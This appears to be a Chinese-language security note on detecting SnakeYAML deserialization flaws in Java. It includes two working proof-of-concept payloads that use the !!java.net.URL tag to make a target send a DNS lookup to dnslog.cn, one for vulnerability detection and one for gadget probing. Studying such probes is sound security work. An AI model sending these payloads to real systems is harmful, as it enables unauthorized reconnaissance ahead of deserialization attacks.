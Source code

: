 # YAML简介

YAML是”YAML Ain’t a Markup Language”（YAML不是一种标记语言）的递归缩写，是一个可读性高、用来表达数据序列化的格式，类似于XML但比XML更简洁。

在Java中，有一个用于解析YAML格式的库，即SnakeYaml。

SnakeYaml是一个完整的YAML1.1规范Processor，支持UTF-8/UTF-16，支持Java对象的序列化/反序列化，支持所有YAML定义的类型。

# 漏洞探测

```java
String poc = "!!java.net.URL [null, \"[http://osrwbf.dnslog.cn]
(http://osrwbf.dnslog.cn/)\"]: 1";
```

会调用key.hashcode方法触发dnslog

![image-20220303230207084](img/image-20220303230207084.png)



## 探测gadget

[参考](./SnakeYAML实现Gadget探测.pdf)

```java
   String poc="key: [!!org.example.User {} : 0, !!java.net.URL [null, \"http://r0hy7l.dnslog.cn\"]: 1],";
```

其中所说的 {}相比 []可以获取私有构造方法并没有发现,在高版本中都可以获取私有构造方法

看看如何吧我们的payload解析为标签的
